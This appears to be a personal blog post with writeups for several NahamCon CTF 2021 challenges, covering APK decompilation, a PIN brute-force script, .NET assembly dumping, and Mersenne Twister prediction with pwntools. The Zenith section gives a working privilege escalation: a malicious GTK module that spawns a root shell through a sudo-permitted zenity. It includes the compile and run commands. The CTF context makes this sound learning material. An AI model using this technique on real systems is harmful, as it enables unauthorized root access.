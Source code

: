 ```yaml
---
layout: post
title:  "Nahamcon CTF 2021 writeups"
date:   2021-03-14 19:59:36 +0200
categories: ctf
---
```



These are the writeups for [Nahamcon CTF 2021](https://ctf.nahamcon.com/) challenges that I personally solved.

## Buzz

```
gzip -dc buzz
flag{b3a33db7ba04c4c9052ea06d9ff17869}
```

## Resourceful

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:


```java=
((TextView) findViewById(R.id.flagTV)).setText("flag{".concat(getResources().getString(R.string.md5)).concat("}"));
```
The resource is easily found from `strings.xml`:
```xml=
 <string name="md5">7eecc051f5cb3a40cd6bda40de6eeb32</string>
```

## Andra

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:

```xml=
<?xml version="1.0" encoding="utf-8"?>
<androidx.constraintlayout.widget.ConstraintLayout
...
android:text="flag{d9f72316dbe7ceab0db10bed1a738482}" android:textAlignment="center" />
    </LinearLayout>
</androidx.constraintlayout.widget.ConstraintLayout>
```

## Microscopium

Decompile [online](https://www.apkdecompilers.com/) and search for the word **flag**:

This time it's hidden in a Javascript function. It's an XOR encryption with a partial key + a user entered pin code:

```javascript=
function b() {
                var t;
                (0, o.default)(this, b);
                for (var n = arguments.length, l = new Array(n), u = 0; u < n; u++) l[u] = arguments[u];
                return (t = v.call.apply(v, [this].concat(l))).state = {
                    output: 'Insert the pin to get the flag',
                    text: ''
                }, t.partKey = "pgJ2K9PMJFHqzMnqEgL", t.cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=", t.onChangeText = function(n) {
                    t.setState({
                        text: n
                    })
                }, t.onPress = function() {
                    var n = p.Base64.toUint8Array(t.cipher64),
                        o = y.sha256.create();
                    o.update(t.partKey), o.update(t.state.text);
                    for (var l = o.hex(), u = "", c = 0; c < n.length; c++) u += String.fromCharCode(n[c] ^ l.charCodeAt(c));
                    t.setState({
                        output: u
                    })
                }, t
            }
```

Simply brute force the pin codes with some node.js:

```javascript=
function pad(number, length) {
    var str = '' + number;
    while (str.length < length) {
        str = '0' + str;
    }
    return str;
}

var sha256 = require('js-sha256');
var cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=";
var partKey = "pgJ2K9PMJFHqzMnqEgL";
var toUint8Array = require('base64-to-uint8array');
var n = toUint8Array(cipher64);

for (var i=0 ; i < 10000; i++) {
    let pin = pad(i,4);
    var o = sha256.create();
    o.update(partKey);
    o.update(pin);
    for (var l = o.hex(),u="",c=0;c<n.length;c++) u+= String.fromCharCode(n[c] ^ l.charCodeAt(c));
    if (u.includes("flag{"))
        console.log(u);
}
```


## Alphabet soup

Start by dumping the embedded assembly to a file:
```csharp=
byte[] unfusked = Convert.FromBase64String(zcfZIEShfvKnnsZ(pTIxJTjYJE, YKyumnAOcgLjvK));
System.IO.File.WriteAllBytes("unfucked.exe",unfusked);
```

Use .NET decompiler (I used dotPeek) to decompile the program. Then dump the array to a file:

```csharp=
      Console.WriteLine("Not so fast!");
      System.IO.File.WriteAllBytes("whatnow",numArray);
```

The flag is embedded in the middle of the file.

## Zenith

Since we know the password let's take a look at sudo:

```bash=
sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zenith-0ce4b2b850612747-668869dc99-jp4gs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on zenith-0ce4b2b850612747-668869dc99-jp4gs:
    (root) /usr/bin/zenity
```
Ok, let's look how this could be exploited. From options we notice that additional libraries can be loaded, nice:

```
GTK+ Options
  --class=CLASS                                     Program class as used by the window manager
  --name=NAME                                       Program name as used by the window manager
  --gdk-debug=FLAGS                                 GDK debugging flags to set
  --gdk-no-debug=FLAGS                              GDK debugging flags to unset
  --gtk-module=MODULES                              Load additional GTK+ modules
  --g-fatal-warnings                                Make all warnings fatal
  --gtk-debug=FLAGS                                 GTK+ debugging flags to set
  --gtk-no-debug=FLAGS                              GTK+ debugging flags to unset
```

Let's make a evil library:

```c=
#include <iostream>
#include <gtk/gtk.h>
#include <stdlib.h>

extern "C" {
void gtk_module_init(gint *argc, gchar ***argv[]) {
    system("/bin/sh");
}
}
```

and compile:
```
g++ -fPIC -shared -Wl,-soname,libfoo.so.1 -olibfoo.so.1.0.1 `pkg-config --libs --cflags gtk+-3.0` evilgtk.c
```

and execute it:

```
sudo /usr/bin/zenity --gtk-module=/tmp/libfoo.so.1.0.1 --info --txt "pwnd"
```

note that to get display configured properly use `-X` option when you ssh into the box.

Get the flag:

```
# cd /root
# chmod a+x get_flag
# ./get_flag
flag{d1fbeab9101e0ee7fc1342e4c96b4603}
```

## Dice roll

The randomness is based on *Mersenne Twister* which is not cryptographically secure. Use https://github.com/tna0y/Python-random-module-cracker to predict the next roll:

```python=
import random, time
from randcrack import RandCrack
from pwn import *

rc = RandCrack()

r = remote('challenge.nahamcon.com', 31784)
r.recvuntil('>')

for i in range(624):
    r.send('2\n')
    r.recvline() #rolling
    result = int(r.recvline())
    rc.submit(result)
    print("i:"+str(i)+", :"+str(result))
    r.recvuntil('>')

print("Guessing the number is {}".format(rc.predict_randrange(0,4294967295)))
r.interactive()
```


